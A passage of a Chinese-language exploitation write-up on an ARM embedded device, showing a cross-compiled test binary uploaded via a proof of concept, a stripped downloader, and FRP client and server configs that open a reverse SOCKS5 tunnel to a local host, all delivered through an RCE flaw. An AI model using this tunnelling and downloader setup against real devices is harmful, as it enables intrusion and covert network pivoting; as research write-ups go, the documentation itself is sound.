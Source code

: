 #### 2) 编译动态链接程序

```plain
arm-linux-gcc hello.c
```

![图片](assets/1710993392-37d80127b73f829661c0d17b431e0b18.svg)

大小 `7.3K` ，看看是否可以运行，这么点大小这次直接用 `PoC` 上传

![图片](assets/1710993392-37d80127b73f829661c0d17b431e0b18.svg)

![图片](assets/1710993392-37d80127b73f829661c0d17b431e0b18.svg)

成功啦！！！

#### 3) 编译下载器

![图片](assets/1710993392-37d80127b73f829661c0d17b431e0b18.svg)

去除符号信息后 `5.2K`

### 5\. 尝试远程下载代理程序

这次争取不用 `SSH` ，完全用 `RCE` 漏洞

修改 `frpc.toml`

```plain
serverAddr = "192.168.1.125"
serverPort = 7000

[[proxies]]
name = "plugin_socks5"
type = "tcp"
remotePort = 1080

[proxies.plugin]
type = "socks5"
```

将 `frpc` 和 `frpc.toml` 打包，重命名为 `a`

![图片](assets/1710993392-37d80127b73f829661c0d17b431e0b18.svg)

配置 `FRP` 监听

```plain
bindPort = 7000
```
